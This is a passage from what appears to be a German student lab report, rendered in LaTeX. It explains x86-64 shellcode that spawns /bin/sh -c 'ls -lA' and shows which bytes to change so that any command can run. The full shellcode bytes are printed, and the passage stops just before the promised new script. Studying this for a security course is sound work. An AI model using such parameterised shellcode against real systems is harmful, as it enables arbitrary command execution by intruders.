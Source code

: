 \documentclass[12pt]{article}
\begin{document}
\begin{figure}[htbp]
    \centering
    \texttt{[image: Praktikum 3/Bilder/shellcode/shellcode.png]}
\end{figure}

Aktuell zeigt das [rdx+5] auf den fünften Byte von rdx (=> "A"), und 0x41 auf den Buchstaben "A". Diese müssen für beliebige Eingaben veränderbar sein. \newline
Damit andere Programme mit den dazugehörigen Parametern aufgerufen werden können, muss anstatt dem "ls -lA" ein String eingefügt werden. Falls der String ein korrekten Programmname enthält, würde dieser aufgerufen werden mit den mitgegebenen Parametern (falls vorhanden). \newline

Berechnet man die zwei Bereiche in Hexadezimalwerte um, erhält man folgende Werte: \newline
\newline
"ls -lA" => \textbf{6c73202d6c41}. \newline
\newline
"5" => \textbf{0x5}. \newline
\newpage

Schauen wir uns nun unseren Shellcode genauer an:

\begin{lstlisting}
shellcode="\x48\x31\xc9\x51\x48\xb9\xff\x2f\x62\x69\x6e\x2f\x73" \
        + "\x68\x48\xc1\xe9\x08\x51\x54\x5f\x48\x31\xc9\x51\x66" \
        + "\x68\x2d\x63\x54\x5b\x48\x31\xc9\x51\xeb\x14\x5a\x52" \
        + "\x80\x72\<@\textcolor{red}{x05}@>\x41\x53\x57\x54\x5e\x48\x31\xd2\x48\x31" \
        + "\xc0\xb0\x3b\x0f\x05\xe8\xe7\xff\xff\xff\<@\textcolor{red}{x6c}@>\<@\textcolor{red}{x73}@>\<@\textcolor{red}{x20}@>" \
        + "\<@\textcolor{red}{x2d}@>\<@\textcolor{red}{x6c}@>\<@\textcolor{red}{x41}@>"
\end{lstlisting}
Die Rot markierten Hexadezimalzahlen entsprechen genau unseren Werten, die wir variabel halten wollen. \newline

Das neue Skript: \newline
\end{document}
